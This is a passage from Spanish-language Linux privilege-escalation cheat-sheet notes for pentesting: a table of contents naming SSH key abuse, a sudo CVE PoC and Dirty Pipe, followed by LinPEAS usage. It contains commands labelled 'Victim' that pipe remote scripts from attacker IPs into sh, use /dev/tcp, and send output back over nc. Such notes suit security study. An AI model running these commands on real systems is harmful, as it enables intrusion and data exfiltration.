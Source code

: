   - [SSH](#ssh)
    - [LECTURA DE ID_RSA](#lectura-de-id_rsa)
    - [MODIFICACION DEL AUTHORIZED_KEYS](#modificacion-del-authorized_keys)
  - [SUDO VULNERABILITY (CVE-2019-14287)](#sudo-vulnerability-cve-2019-14287)
      - [POC](#poc)
    - [mitigacion](#mitigacion)
    - [EJEMPLO](#ejemplo)
    - [PRACTICA](#practica)
  - [DIRTY PIPE ( CVE-2022-0847)](#dirty-pipe--cve-2022-0847)
  - [TECNICAS](#tecnicas)
  - [ESCALADAS DE PRIVILEGIOS INTERESANTES](#escaladas-de-privilegios-interesantes)


**NOTA RECUERDA PRIMERO SPWANEAR UNA SHELL COMPLETAMENTE INTERACTIVA**

## Herramientas automatizadas

### LinPEAS

[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```bash
wget "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh" -O linpeas.sh

curl "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh" -o linpeas.sh

./linpeas.sh -a #all checks (Toma mas tiempo)

./linpeas.sh -s #superfast (evita algunas comprobaciones que tioman mucho tiempo)

./linpeas.sh -P <Password> # indica una posible contraseña que puede utilizar con sudo -l y probar mas cosas
```

trasnferencia:

```bash
#Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

#Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

#Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

Ejecucion desde github:

